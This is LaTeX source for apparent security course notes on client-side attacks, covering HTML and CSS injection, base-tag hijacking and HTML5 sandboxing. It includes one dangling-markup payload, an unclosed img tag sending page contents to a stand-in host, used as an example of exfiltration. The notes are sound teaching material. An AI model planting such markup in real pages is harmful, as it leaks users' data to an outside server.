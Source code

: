 \documentclass[12pt,titlepage,a4paper]{report}
\begin{document}
			\subsection{Advanced client-side attacks and defences}
			\begin{itemize}
				\item Alternative injection attack vectors
				\begin{itemize}
					\item Not only JS code can be injected through XSS: also HTML, CSS, ...
					\item Data exfiltration by inserting non-closed tags with URL
					\begin{itemize}
						\item \texttt{<img src=`https://ex.com/log.php?} can capture all following page contents until the next single quote '
					\end{itemize}
					\item Hijacking relative URLs by injecting a base tag
					\item Modifying form parameters (field values, destinations, ...)
					\item Prevention:
					\begin{itemize}
						\item Avoid confusion between data and code
						\item Context-sensitive output encoding works perfectly
						\item Sanitization is tricky, since the content seems harmless
					\end{itemize}
				\end{itemize}
			
				\item HTML5 sandboxing
				\begin{itemize}
					\item Origin-based context isolation
					\begin{itemize}
						\item leverages the Same-Origin Policy.
						\item isolates main application from untrusted parts
					\end{itemize}
					\item Sandbox attribute
					\begin{itemize}
						\item impose constraints on the behaviour of the content
						\item default: content has a unique origin, no script execution, no form submission, no external navigation, no pop-ups, no plug-in content, no full-screen capabilities
					\end{itemize}
				\end{itemize}
			

\end{itemize}
\end{document}
